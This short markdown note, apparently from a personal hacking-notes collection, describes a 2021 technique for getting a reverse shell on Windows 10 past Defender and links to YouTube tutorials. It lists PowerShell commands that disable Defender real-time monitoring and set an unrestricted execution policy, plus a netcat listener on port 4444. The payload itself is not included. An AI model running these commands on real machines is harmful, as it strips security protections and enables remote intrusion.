 ```yaml
---
tags:
  - linux
  - windows
  - shell
  - code
  - kali
  - hacking
---
```

# ReverseShell-Win10-bypass-Defender
This worked in 2021 for Windows 10.

Developed by Youtuber "TheDroneSmith".

Demonstration: 
https://youtu.be/XW6f86LXQ2I?si=S8PdQ9vV4Yg2yVJ7

Full Tutorial:
https://www.youtube.com/watch?v=1C6g6nJcdgc&t=0s

Powershell Command Execution as Administrator
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-ExecutionPolicy Unrestricted
```
`a` = "Yes to All"

Kali LinuxShell
```sh
nc -vv -n -l -p 4444
```

